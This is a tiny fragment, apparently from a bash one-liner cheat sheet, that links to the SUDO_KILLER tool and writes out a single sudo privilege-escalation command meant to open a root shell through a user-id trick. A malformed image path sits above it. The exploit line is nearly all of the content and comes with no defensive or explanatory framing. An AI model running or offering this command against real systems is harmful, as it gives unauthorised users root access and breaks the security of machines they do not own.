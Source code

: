 # OneLinersBash


# SUDO_KILLER

url: https://github.com/TH3xACE/SUDO_KILLER/tree/master
$ sudo -u#-1 bash -u
